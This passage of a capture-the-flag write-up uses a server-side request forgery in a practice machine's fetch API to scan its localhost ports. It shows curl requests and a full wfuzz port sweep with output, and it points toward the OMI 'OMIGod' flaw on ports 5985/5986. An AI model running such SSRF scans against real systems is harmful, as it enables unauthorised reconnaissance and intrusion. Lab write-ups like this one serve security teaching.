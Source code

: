 


It seems like for some reason the site sets `endpoint` field if the port
is open but not if it's closed. I got a little bit lucky here because
the site only works this way if I scan localhost, not 127.0.0.1:



    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://127.0.0.1:81
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"127.0.0.1:81","note":"127.0.0.1"}



A good reminder to try both of them just in case when fuzzing things.
I'll look at why in [Beyond Root](#code-review).

I'll try fuzzing with localhost, using `--hs '"endpoint":"null"'` to
hide results containing that string:



    oxdf@parrot$ wfuzz -z range,1-65535 --hs '"endpoint":"null"' -u http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ

    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ
    Total requests: 65535

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================

    000000022:   200        0 L      1 W        117 Ch      "22"
    000000080:   200        0 L      1 W        117 Ch      "80"
    000005986:   200        0 L      1 W        119 Ch      "5986"
    000008001:   200        0 L      1 W        119 Ch      "8001"
    000005985:   200        0 L      1 W        119 Ch      "5985"
    000038332:   200        0 L      1 W        120 Ch      "38332"
    000046012:   200        0 L      1 W        120 Ch      "46012"

    Total time: 636.1354
    Processed Requests: 65535
    Filtered Requests: 65528
    Requests/sec.: 103.0205



Sometimes when I ran this brute I would get some stray 502 errors back
from the server. These are not positive hits, and I could include
`--hc 502` to clear those as well.

I knew about 22 and 80 already. The two high ports could be interesting,
but I'm immediately interested in 5985 and 5986. These are typically the
WinRM ports on Windows. On Linux, they happen to be used by Open
Management Interface, or OMI, which is the software exploitable by
[CVE-2021-38647](https://www.tenable.com/blog/cve-2021-38647-omigod-critical-flaw-leaves-azure-linux-vms-vulnerable-to-remote-code-execution),
or OMIGod.
